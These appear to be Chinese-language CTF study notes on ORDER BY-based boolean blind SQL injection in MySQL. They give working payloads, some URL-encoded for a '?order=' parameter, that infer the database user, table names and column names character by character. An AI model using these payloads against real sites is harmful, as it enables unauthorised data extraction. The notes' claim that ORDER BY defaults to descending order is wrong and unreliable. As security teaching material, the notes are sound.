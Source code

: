 order by在mysql中通常作为排序

例如：

```javascript
select * from admin1 order by id;
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入/images/A11181E0C41143A590158D6D8767BD5Cclipboard.png)

默认是降序排列。



1. 基于order by的盲注

当order by后面的参数可控时，通过控制传入的参数，可是返回数据的排列不同，造成布尔盲注

列如：

1.1 IF(1=2,id,username)

```javascript
select * from admin1 order by IF(1=2,id,username) ;
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入/images/A19FCDCC32CF4A5987E98B388337EF2Eclipboard.png)



```javascript
select * from admin1 order by IF(1=2,id,username) ;
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入/images/B2FE0960EED74AACA66ABF603062B6B9clipboard.png)



2. 基于此原理猜解内容：

```javascript
select * from admin1 order by (select 1 regexp if(substring(user(),1,1)='r',1,0x00)) ;
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入/images/58938AC0504C41A593D005D64B461E19clipboard.png)



通过返回的内容不同，从而确定数据内容

```javascript
select * from admin1 order by (select 1 regexp if(substring(user(),1,1)='1',1,0x00)) ;
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入/images/CCFB65E577E94523BE83A06CE492DD26clipboard.png)

猜解数据库表名；

```javascript
(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x67,1,0x00)) 正确
(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x66,1,0x00)) 错误
```

猜解数据库列名：

```javascript
/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x69,1,0x00)) 正常
/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x68,1,0x00)) 错误
```



1.2 (case when (1) then id else username end) 

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入/images/93529A083A344D37A440094BA211D6D8clipboard.png)



```javascript
 (case when (FALSE) then id else username end) 
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入/images/F6A753A4CE76463BB37ED2AF4880D94Dclipboard.png)

